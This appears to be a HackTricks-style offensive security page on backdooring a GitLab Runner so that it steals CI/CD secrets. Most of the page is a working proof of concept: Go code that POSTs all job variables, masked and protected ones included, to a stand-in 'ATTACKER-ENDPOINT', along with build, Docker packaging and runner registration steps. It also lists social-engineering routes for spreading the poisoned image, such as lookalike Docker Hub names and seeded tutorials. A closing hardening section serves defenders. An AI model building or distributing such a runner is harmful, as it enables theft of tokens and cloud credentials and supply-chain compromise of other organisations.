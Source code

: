 # Abusing GitLab Runner: Secrets Exfiltration via Tampered Runner

{{#include ../../banners/hacktricks-training.md}}

## Overview

If a GitLab instance hands job payloads (including masked/protected CI/CD variables) to an untrusted or tampered runner binary/image, the runner can silently exfiltrate those secrets. This is independent of container isolation: once the platform injects secrets into the job context, the runner can read and leak them.

Historically, GitLab did not validate the runner binary/image integrity before dispatching jobs. A malicious actor could ship a drop‑in runner that behaves normally while posting all environment variables to an external server. GitLab has since hardened server‑side validation, but the technique remains important for offensive testing and for understanding the trust boundary.

Threat model:
- Attacker can replace or trick admins into installing a malicious runner binary/image, or gets a runner registered in the instance/group/project.
- Jobs run on the malicious runner, which reads variables and exfiltrates them.

Impact examples:
- Steal PATs, project/group access tokens, cloud credentials (AWS/GCP/Azure), KUBE_TOKEN/KUBECONFIG, and any protected variables.
- With stolen tokens: create branches, bypass reviews via token abuse, modify pipelines, deploy to prod, or pivot to cloud infrastructure.

## Where to hook into the Runner

The GitLab Runner source exposes job variables to executors. In the Docker executor (Go):
- File: executors/docker/docker.go
- Variables aggregation: e.Build.GetAllVariables()

Any executor can be modified similarly.

## PoC: Exfiltrate all variables from a Runner build

1) Clone runner source

```
git clone https://gitlab.com/gitlab-org/gitlab-runner.git
cd gitlab-runner
```

2) Edit Docker executor and add sendVariables()

Open executors/docker/docker.go and add:

```go
import (
    "bytes"
    "encoding/json"
    "fmt"
    "net/http"
    "time"
)

func (e *executor) sendVariables() error {
    vars := make(map[string]string)
    for _, v := range e.Build.GetAllVariables() {
        vars[v.Key] = v.Value
    }

    payload, err := json.Marshal(vars)
    if err != nil {
        return fmt.Errorf("failed to marshal variables: %w", err)
    }

    client := &http.Client{Timeout: 15 * time.Second}
    req, err := http.NewRequest("POST", "https://ATTACKER-ENDPOINT", bytes.NewBuffer(payload))
    if err != nil {
        return fmt.Errorf("failed to create HTTP request: %w", err)
    }
    req.Header.Set("Content-Type", "application/json")

    resp, err := client.Do(req)
    if err != nil {
        return fmt.Errorf("HTTP POST failed: %w", err)
    }
    defer resp.Body.Close()

    fmt.Println("Exfil POST status:", resp.Status)
    return nil
}
```

Call it from a code path that observes variables, for example at the end of:

```go
func (e *executor) Prepare(options common.ExecutorPrepareOptions) error { 
    ...
    _ = e.sendVariables()
    return nil
}
```

or in:

```go
func (e *executor) createContainer(...) (...) {
    ...
    _ = e.sendVariables()
}
```

3) Build a native runner binary (no make)

```
go build -o gitlab-runner .
```

4) Package a Docker image that wraps the patched binary

Dockerfile:

```
FROM debian:bookworm-slim
RUN apt-get update && apt-get install -y \
  ca-certificates \
  git \
  curl \
  && rm -rf /var/lib/apt/lists/*
COPY gitlab-runner /usr/bin/gitlab-runner
ENTRYPOINT ["/usr/bin/gitlab-runner"]
```

Build:

```
docker build -t my-gitlab-runner .
```

5) Register and run the runner

- Obtain a runner token in the GitLab UI (Instance/Group/Project scope as desired).
- Register:

```
docker run --rm -it --network host \
  -v /etc/gitlab-runner:/etc/gitlab-runner \
  -v /var/run/docker.sock:/var/run/docker.sock \
  my-gitlab-runner register --url http://GITLAB-URL --token RUNNER_TOKEN
```

- Optional host mapping if Runner and GitLab share host (config.toml under [runners.docker]):

```
extra_hosts = ["gitlab.local:host-gateway"]
```

- Run the malicious runner:

```
docker run --rm -it --network host \
  -v /etc/gitlab-runner:/etc/gitlab-runner \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -e RUNNER_DEBUG=true \
  my-gitlab-runner run
```

6) Trigger any job to force exfiltration

.gitlab-ci.yml:

```
stages:
  - test

test_runner:
  stage: test
  script:
    - echo "GitLab Runner is working!"
```

Every job running on the tampered runner will POST all variables returned by GetAllVariables(), including masked/protected ones.

Notes:
- The PoC shows Docker executor, but any executor can be altered similarly.
- Containerization doesn’t protect confidentiality once secrets are injected into the job by GitLab.

## Distribution and social engineering angles

- Publish a lookalike Docker Hub namespace (for example: gitlab-org/gitlab-runner instead of the official gitlab/gitlab-runner).
- Seed tutorials/blogs or internal docs that reference the poisoned image.
- Release a malicious starter template that configures the runner.
- Convince coworkers/sysadmins to install a runner binary from an unofficial source.
- Hide the runner binary inside a helper container used in builds.

## Defensive considerations (hardening and detection)

- Treat the runner as part of the trust boundary. The platform must verify runner integrity before releasing secrets. GitLab introduced server-side validation to only dispatch jobs to official builds (for GitLab-hosted runners and new workflows on self-managed). Keep GitLab and Runner updated.
- Restrict who can create/register runners (use the authentication-token workflow, not legacy registration tokens; approve runner owners).
- Scope variables tightly: use environment-scoped variables, minimal permissions, and avoid long-lived PATs. Prefer job tokens with least privilege.
- Egress control: restrict runner outbound access with network policies/proxies; block calls to unknown endpoints from runner networks.
- Runtime detection: monitor runner hosts/containers for unexpected outbound HTTP(S) to non-approved domains; alert on unusual runner image names or hashes; audit runner registrations and assignments.
- Supply chain: pin to official runner images by digest; mirror and sign artifacts; enforce admission policies (for example: only allow signed images from an internal registry).

## References

- A Simple Supply Chain Bug — Worth $11,850 — How GitLab Reinforces Trust in Open Source (runner integrity verification, PoC): https://medium.com/@justas_b1/a-simple-supply-chain-bug-worth-11-850-how-gitlab-reinforces-trust-in-open-source-424585c79074
- GitLab Runner docs: https://docs.gitlab.com/runner/

{{#include ../../banners/hacktricks-training.md}}